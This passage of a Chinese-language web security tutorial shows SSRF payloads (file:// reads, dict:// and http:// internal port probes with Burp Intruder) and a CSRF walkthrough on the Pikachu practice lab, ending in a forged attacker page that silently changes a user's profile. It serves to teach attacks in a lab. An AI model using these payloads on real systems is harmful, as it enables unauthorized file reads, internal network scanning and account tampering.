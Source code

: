 举例：

```
?url=file:///var/www/html/flag.php
```

##### 3、端口扫描

在SSRF中，dict协议与http协议可以用来探测内网主机存活与端口开放情况。

```
?url=dict://127.0.0.1:8000
```

用burp，在intruder中，将端口设置为变量。使用Simple List扫描常用端口，或者使用NumerList进行枚举。当发现长度不同的数据包时，再用`http`协议进一步探测。

```
?url=http://127.0.0.1:8111
```

##### 4、其他

详细参考：[SSRF的利用方式](https://www.freebuf.com/articles/web/265646.html)

# 演示案例

## Pikachu—CSRF 案例及Burp检测

虚拟机上搭建Pikachu测试平台，进入CSRF练习模块，物理机访问

![](https://gitee.com/YatJay/image/raw/master/img/202203080959254.png)

CSRF(get)模块登录一个账号(一共有这么些用户vince/allen/kobe/grady/kevin/lucy/lili,密码全部是123456)，点击进入信息修改页面，修改后提交时进行抓包，得到修改用户信息时的URL

![](https://gitee.com/YatJay/image/raw/master/img/202203081000262.png)

则修改用户信息时的URL为

```
http://192.168.137.128/pentest/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=12345678910&add=china&email=kobe%40pikachu.com&submit=submit
```

将得到的修改用户信息自定义，插入攻击者构造的页面中

我们构造修改用户信息的URL即payload为

```
http://192.168.137.128/pentest/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=88888888888&add=Shanghai&email=kobe%40pikachu.com&submit=submit
```

插入某个自定义的页面

```html
<!DOCTYPE html>
<html>
<head> 
<meta charset="utf-8"> 
<title>文档标题</title>
</head>
 
<body>
	<script src="http://192.168.137.128/pentest/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=88888888888&add=Shanghai&email=kobe%40pikachu.com&submit=submit"></script>
	<p>HELLO CSRF</p>
</body>
 
</html>
```